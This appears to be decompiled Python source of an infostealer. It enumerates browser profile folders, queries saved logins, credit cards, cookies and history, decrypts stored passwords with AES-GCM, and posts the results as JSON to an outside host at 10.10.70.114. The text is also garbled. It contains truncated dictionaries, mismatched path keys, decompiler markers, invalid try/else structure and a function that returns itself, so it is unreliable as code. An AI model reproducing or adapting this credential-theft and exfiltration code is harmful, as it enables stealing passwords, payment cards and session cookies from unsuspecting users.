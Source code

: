 ```py
browsers = {'avast': appdata + '\\AVAST Software\\Browser\\User Data', 'amigo': appdata + '\\Amigo\\User Data', 'torch': appdata + '\\Torch\\User Data', 'kometa': appdata + '\\Kometa\\User Data', 'orbitum': appdata + '\\Orbitum\\User Data', 'cent-browser': appdata + '\\CentBrowser\\User Data', '7star': appdata + '\\7Star\\7Star\\User Data', 'sputnik': appdata + '\\Sputnik\\Sputnik\\User Data', 'vivaldi': appdata + '\\Vivaldi\\User Data', 'chromium': appdata + '\\Chromium\\User Data', 'chrome-canary': appdata + '\\Google\\Chrome SxS\\User Data', 'chrome': appdata + '\\Google\\Chrome\\User Data', 'epic-privacy-browser': appdata + '\\Epic Privacy Browser\\User Data', 'msedge-dev': appdata + '\\Microsoft\\Edge Dev\\User Data', '\\uCozMedia\\Uran\\User Data': appdata + '\\Yandex\\YandexBrowser\\User Data', '\\BraveSoftware\\Brave-Browser\\User Data': appdata + '\\Iridium\\User Data', '\\CocCoc\\Browser\\User Data': roaming + '\\Opera Software\\Opera Stable', '\\Opera Software\\Opera GX Stable': roaming + '\\Opera Software\\Opera GX Stable'}
data_queries = {'login_data': {'query': 'SELECT action_url, username_value, password_value FROM logins', 'file': '\\Login Data', 'columns': ['URL', 'Email', 'Password'], 'decrypt': True}, 'credit_cards': {'query': 'SELECT name_on_card, expiration_month, expiration_year, card_number_encrypted, date_modified FROM credit_cards', 'file': '\\Web Data', 'columns': ['Name On Card', 'Card Number', 'Expires On', 'Added On'], 'decrypt': True}, 'cookies': {'query': 'SELECT host_key, name, path, encrypted_value, expires_utc FROM cookies', 'file': '\\Network\\Cookies', 'columns': ['Host Key', 'Cookie Name', 'Path', 'Cookie', 'Expires On'], 'decrypt': True}, 'history': {'query': 'SELECT url, title, last_visit_time FROM urls', 'file': '\\History', 'columns': ['URL', 'Title', 'Visited Time'], 'decrypt': False}, 'downloads': {'query': 'SELECT tab_url, target_path FROM downloads'

def get_master_key(path: str):
    if not os.path.exists(path):
        pass  # postinserted
    return None

def decrypt_password(buff: bytes, key: bytes) -> str:
    iv = buff[3:15]
    payload = buff[15:(-16)]
    cipher = AES.new(key, AES.MODE_GCM, iv)
    decrypted_pass = cipher.decrypt(payload)
    decrypted_pass = decrypted_pass.decode()
    return decrypted_pass

def save_results(browser_name, type_of_data, content):
    if content:
        url = 'http://10.10.70.114:443'
        data = {'browser': browser_name, 'type': type_of_data, 'content': content}
        try:
            response = requests.post(url, json=data)
            if response.status_code == 200:
                print(f'\t [*] Data sent successfully for {browser_name}/{type_of_data}')
            return None
    else:  # inserted
        return None
    except Exception as e:
        print(f'\t [-] Error sending data: {e}')
        return None

def decrypt_my_data(encrypted_file):
    with open('encrypted.bin', 'rb') as f:
        content = f.read()
    iv = '1234567891011123'
    encrypted_data = '6b4781995cf5e4e02c2625b3d1ac6389dbaf68fb5649a3c24ede19465f470412'
    key = CryptUnprotectData(content, None, None, None, 0)[1]
    key = bytes.fromhex(key)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    data = cipher.decrypt(encrypted_data)
    return decrypt_my_data

def get_data(path: str, profile: str, key, type_of_data):
    db_file = f"{path}\\{profile}{type_of_data['file']}"
    if not os.path.exists(db_file):
```